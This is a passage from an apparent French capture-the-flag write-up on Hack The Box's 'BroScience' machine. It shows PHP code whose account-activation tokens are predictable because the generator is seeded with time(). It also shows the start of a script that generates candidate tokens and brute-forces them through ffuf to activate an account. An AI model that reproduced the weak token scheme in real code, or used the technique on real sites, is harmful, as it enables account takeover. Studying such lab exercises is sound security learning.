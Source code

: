 ## Exploitation
### Vulnérabilité 1 : Activation d'un compte de test

#### Analyse de la vulnérabilité

La fonction responsable de la génération du code d'activation lors de la création d'un compte utilisateur est la suivante :

```php
function generate_activation_code() {
	$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
	srand(time());
	$activation_code = "";
	for ($i = 0; $i < 32; $i++) {
		$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
	}
	return $activation_code;
}
```

Elle utilise la fonction `time()` pour initialiser le générateur de nombres aléatoires.

Cela signifit qu'en sachant à quelle heure a eu lieu la création du compte utilisateur, on peut deviner le code d'activation généré. La conséquence directe étant l'activation du compte sans posséder le code d'activation.

Etant donné que le serveur à exploiter et notre machine ne sont pas synchronisés niveau temps, on devra bruteforcer quelques codes d'activation avant et après celui correspondant à l'heure d'activation.

#### Attaque du code d'activation

```php  
<?php
    /*
        File  : guess_activation_code.php
        Usage : 
	        - Edit variables $user / $pass / $mail as desired
			- php guess_activation_code.php | ffuf -u https://broscience.htb/activate.php?code=FUZZ -w - -fr "Invalid"
    */
    $user = "reb";
    $pass = $user;
    $mail = $user . "@somewhere.org";
    function generate_activation_code($time) {
        $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
        srand($time);
        $activation_code = "";
        for ($i = 0; $i < 32; $i++) {
            $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
        }
        return $activation_code;
    }
    function print_brute_force_acivation_code($start_time, $end_time){
        for ($cur_time = $start_time ; $cur_time <= $end_time ; $cur_time++){
            $activation_code = generate_activation_code($cur_time);
            echo $activation_code . "\n";
        }
    }
  
    function register(){
        global $user, $pass, $mail;
        print "[+] Registering...";
```